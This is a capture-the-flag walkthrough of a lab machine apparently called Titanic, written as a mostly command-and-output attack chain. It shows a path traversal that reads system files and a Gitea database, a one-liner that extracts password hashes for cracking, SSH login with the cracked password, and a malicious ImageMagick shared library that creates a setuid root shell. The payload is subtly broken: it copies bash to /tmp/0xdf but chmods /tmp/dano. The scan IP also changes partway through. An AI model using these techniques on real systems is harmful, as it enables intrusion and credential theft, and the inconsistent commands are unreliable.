


we start with the reconnaissance phase

```bash 
┌──(kali㉿kali)-[~/labs-hack/titanic]
└─$ ping -c 1 10.10.11.55
PING 10.10.11.55 (10.10.11.55) 56(84) bytes of data.
64 bytes from 10.10.11.55: icmp_seq=1 ttl=63 time=102 ms

--- 10.10.11.55 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 101.598/101.598/101.598/0.000 ms
                                                                                                                                                                                            
┌──(kali㉿kali)-[~/labs-hack/titanic]
└─$ ports=$(nmap -p- --open -sS -T5 -n -Pn 10.10.11.17 | awk '/^[0-9]+\/tcp/ {split($1,a,"/"); print a[1]}' | paste -sd,)
                                                                                                                                                                                            
┌──(kali㉿kali)-[~/labs-hack/titanic]
└─$ echo $ports                      
22,80

┌──(kali㉿kali)-[~/labs-hack/titanic]
└─$ nmap -p$ports 10.10.11.55 -sCV -v -oN titanic_scan

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 73:03:9c:76:eb:04:f1:fe:c9:e9:80:44:9c:7f:13:46 (ECDSA)
|_  256 d5:bd:1d:5e:9a:86:1c:eb:88:63:4d:5f:88:4b:7e:04 (ED25519)
80/tcp open  http    Apache httpd 2.4.52
|_http-server-header: Apache/2.4.52 (Ubuntu)
|_http-title: Did not follow redirect to http://titanic.htb/
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
Service Info: Host: titanic.htb; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Well, we started to fuzzig the site: 

```bash 
┌──(kali㉿kali)-[~]
└─$ wfuzz -u http://10.10.11.55 -H "Host: FUZZ.titanic.htb" --hc=301,400 -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-20000.txt
 /usr/lib/python3/dist-packages/wfuzz/__init__.py:34: UserWarning:Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://10.10.11.55/
Total requests: 19966

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                                                                    
=====================================================================

000000019:   200        275 L    1278 W     13870 Ch    "dev"
```

This is interesting, we can add this to `/etc/hosts`. 

`echo "10.10.11.55 titanic.htb dev.titanic.htb" | sudo tee -a /etc/hosts`

Going to "http://dev.titanic.htb" I can see a `gitea` information site. Gitea is a free and open-source Git service designed for self-hosting. It provides a platform for managing Git repositories, collaborating on code, and streamlining development workflows, similar to GitHub, GitLab, and Bitbucket, but with a focus on being lightweight, easy to install, and self-hosted. 
In the site we can see the Gitea version: 1.22.1


Searching in google we can found a XXS vulnerability, but seems it can't be proved here. 

In `Explore` section we can access to two repos, the `docker-config/gitea/docker-compose.yml` contains the configuration's site. 


--------
 
Going to `http://titanic.htb` we can book a trip, intercepting the traffic site with `burpsuite`, this is how it works: 

1- Book a trip, then submit the information and the site sends a POST request to `/book`


2- Visiting `/download`, I can see the info I submitted: 



And trying something we can read the `/etcp/passwd`


I probe this with curl: 

```bash 
┌──(kali㉿kali)-[~]
└─$ curl 'http://titanic.htb/download?ticket=/etc/owo'   
{"error":"Ticket not found"}
                                                                                  
┌──(kali㉿kali)-[~]
└─$ curl 'http://titanic.htb/download?ticket=/etc/hostname'
titanic
```

From the /etc/passwd I can see the user developer has access to a shell, so we can try to see if the user's flag is in the developer directories. 

```bash 
┌──(kali㉿kali)-[~]
└─$ curl 'http://titanic.htb/download?ticket=/home/developer/user.txt'
9f9d2b8d09acd7e63eb91dc1e75ae8ee
```

-----

At this point we know where's the configuration file. [In this site](https://docs.gitea.com/) we can see where's the customization files. The configuration file will be saved at /data/gitea/conf/app.ini after the installation.

Checking this path, we can observe the database information: 



I download this db with curl: 

```bash 
┌──(kali㉿kali)-[~/labs-hack/titanic]
└─$ curl 'http://titanic.htb/download?ticket=/home/developer/gitea/data/gitea/gitea.db' -o gitea.db
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100 2036k  100 2036k    0     0   613k      0  0:00:03  0:00:03 --:--:--  613k
```

We can see a lot of tables: 

```bash
┌──(kali㉿kali)-[~/labs-hack/titanic]
└─$ sqlite3 gitea.db 
SQLite version 3.46.1 2024-08-13 09:16:08
Enter ".help" for usage hints.
sqlite> .headers on
sqlite> .tables
access                     oauth2_grant             
access_token               org_user                 
action                     package                  
action_artifact            package_blob             
action_run                 package_blob_upload      
action_run_index           package_cleanup_rule     
action_run_job             package_file             
action_runner              package_property         
action_runner_token        package_version          
action_schedule            project                  
action_schedule_spec       project_board            
action_task                project_issue            
action_task_output         protected_branch         
action_task_step           protected_tag            
action_tasks_version       public_key               
action_variable            pull_auto_merge          
app_state                  pull_request             
attachment                 push_mirror              
auth_token                 reaction                 
badge                      release                  
branch                     renamed_branch           
collaboration              repo_archiver            
comment                    repo_indexer_status      
commit_status              repo_redirect            
commit_status_index        repo_topic               
commit_status_summary      repo_transfer            
dbfs_data                  repo_unit                
dbfs_meta                  repository               
deploy_key                 review                   
email_address              review_state             
email_hash                 secret                   
external_login_user        session                  
follow                     star                     
gpg_key                    stopwatch                
gpg_key_import             system_setting           
hook_task                  task                     
issue                      team                     
issue_assignees            team_invite              
issue_content_history      team_repo                
issue_dependency           team_unit                
issue_index                team_user                
issue_label                topic                    
issue_user                 tracked_time             
issue_watch                two_factor               
label                      upload                   
language_stat              user                     
lfs_lock                   user_badge               
lfs_meta_object            user_blocking            
login_source               user_open_id             
milestone                  user_redirect            
mirror                     user_setting             
notice                     version                  
notification               watch                    
oauth2_application         webauthn_credential      
oauth2_authorization_code  webhook
```

We can use this one-liner to convert the information of user's table to a hash fortat: 

```bash 
┌──(kali㉿kali)-[~/labs-hack/titanic]
└─$ sqlite3 gitea.db "select passwd,salt,name from user" | while read data; do digest=$(echo "$data" | cut -d'|' -f1 | xxd -r -p | base64); salt=$(echo "$data" | cut -d'|' -f2 | xxd -r -p | base64); name=$(echo $data | cut -d'|' -f 3); echo "${name}:sha256:50000:${salt}:${digest}"; done | tee gitea.hashes
administrator:sha256:50000:LRSeX70bIM8x2z48aij8mw==:y6IMz5J9OtBWe2gWFzLT+8oJjOiGu8kjtAYqOWDUWcCNLfwGOyQGrJIHyYDEfF0BcTY=
developer:sha256:50000:i/PjRSt4VE+L7pQA1pNtNA==:5THTmJRhN7rqcO1qaApUOF7P8TEwnAvY8iXyhEBrfLyO/F2+8wvxaCYZJjRE6llM+1Y=
```

And we can try to crack the hash(with a good computer)

```bash 
hashcat gitea.hashes /opt/SecLists/Passwords/Leaked-Databases/rockyou.txt --user
``` 

We will find that developer's password is: 25282528

Now we can get access with developer user: 

```bash 
┌──(kali㉿kali)-[~/labs-hack/titanic]
└─$ sshpass -p '25282528' ssh developer@10.10.11.55
```

We can try to see the prosesses.

```bash 
developer@titanic:/$ ps auxww
USER         PID %CPU %MEM    VSZ   RSS TTY      STAT START   TIME COMMAND
develop+    1157  0.0  0.8 596440 32480 ?        Ss   03:08   0:06 /usr/bin/python3 /opt/app/app.py
develop+    1667  0.0  4.2 1402628 168084 ?      Ssl  03:08   0:13 /usr/local/bin/gitea web
develop+   11612  0.0  0.2  17068  9704 ?        Ss   06:42   0:00 /lib/systemd/systemd --user
develop+   11797  0.0  0.1   8788  5528 pts/0    Ss   06:42   0:00 -bash
develop+   12688  0.0  0.0  10072  1608 pts/0    R+   07:17   0:00 ps auxww
```

In linux `/proc` is a virtual filesystem (procfs) that kernel mounts at runtime to expose system and proceess information as files and directories. It doesn't exist on dis; instead, each  running processgets its own directory named by its PID (for example, /proc/1234 for the procesess with PID 1234). Inside we'll find details like its command-line arguments, memory usage, CPU stats, and more. 

The `hidepid=0` mount option controls who can see wich `/proc/[PID]` directories: 

    - hidepid=0 (default): any user can list all /proc/[PID] directories and read most files inside them.

    - hidepid=1: unprivileged users can list the PIDs (the directory names) but cannot enter those directories or read their contents—only root can.

    - hidepid=2 (also called hidepid=invisible): directories for processes you don’t own (and aren’t root) do not appear at all. You only see your own processes and those of root.

In this case, /proc is mounted with hidepid=invisible (equivalent to hidepid=2), so when we run:

```bash 
ps auxww
```

we only see processes running under own UID (and root’s), but not any belonging to other users. This enhances security/privacy by preventing normal users from inspecting other users’ processes.

---

We will find thing in /opt, a script in /opt/scripts: 

```bash 
developer@titanic:/$ cat /opt/scripts/identify_images.sh 
cd /opt/app/static/assets/images
truncate -s 0 metadata.log
find /opt/app/static/assets/images/ -type f -name "*.jpg" | xargs /usr/bin/magick identify >> metadata.log
```

This script uses magick, a tool to edit, make, and convert images into a ton of formats. 

```bash
developer@titanic:/$ magick -version
Version: ImageMagick 7.1.1-35 Q16-HDRI x86_64 1bfce2a62:20240713 https://imagemagick.org
Copyright: (C) 1999 ImageMagick Studio LLC
License: https://imagemagick.org/script/license.php
Features: Cipher DPC HDRI OpenMP(4.5) 
Delegates (built-in): bzlib djvu fontconfig freetype heic jbig jng jp2 jpeg lcms lqr lzma openexr png raqm tiff webp x xml zlib
Compiler: gcc (9.4)
```

This version has a [vulnerability](https://github.com/ImageMagick/ImageMagick/security/advisories/GHSA-8rxc-922v-phg8), which is the way it is compiled. This version includ the current working directory in the search path for configuration files and shared libraries. 

In the POC explains that we neet to write a shared library to the same directory named `libxcb.so.1`, Magick will load this library. We can write instructions to make a bash with root permissions(the script runs as root) and gain access like this user. 


```bash
developer@titanic:/opt/app/static/assets/images$ gcc -x c -shared -fPIC -o ./libxcb.so.1 - << EOF
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

__attribute__((constructor)) void init(){
    system("cp /bin/bash /tmp/0xdf; chmod 6777 /tmp/dano");
    exit(0);
}
EOF
developer@titanic:/opt/app/static/assets/images$ ls
entertainment.jpg  exquisite-dining.jpg  favicon.ico  home.jpg  libxcb.so.1  luxury-cabins.jpg  metadata.log
developer@titanic:/opt/app/static/assets/images$ ls -l /tmp
total 1396
-rwsrwsrwx 1 root root 1396520 Jun 26 08:26 dano
drwx------ 3 root root    4096 Jun 26 03:08 snap-private-tmp
drwx------ 3 root root    4096 Jun 26 03:08 systemd-private-538f5438731f483ab42efeba5984160d-apache2.service-8Rtb7J
drwx------ 3 root root    4096 Jun 26 03:08 systemd-private-538f5438731f483ab42efeba5984160d-ModemManager.service-d2OjUC
drwx------ 3 root root    4096 Jun 26 03:08 systemd-private-538f5438731f483ab42efeba5984160d-systemd-logind.service-NsxgUj
drwx------ 3 root root    4096 Jun 26 03:07 systemd-private-538f5438731f483ab42efeba5984160d-systemd-resolved.service-1CzEjT
drwx------ 3 root root    4096 Jun 26 03:07 systemd-private-538f5438731f483ab42efeba5984160d-systemd-timesyncd.service-lftLz4
drwx------ 3 root root    4096 Jun 26 04:43 systemd-private-538f5438731f483ab42efeba5984160d-upower.service-iv4C85
drwx------ 2 root root    4096 Jun 26 03:16 vmware-root_617-4022243191
developer@titanic:/opt/app/static/assets/images$ /tmp/dano -p
dano-5.1# whoami
root
dano-5.1# cat /root/root.txt
6c076097934072b80517d248eb8b28c2
dano-5.1#
```
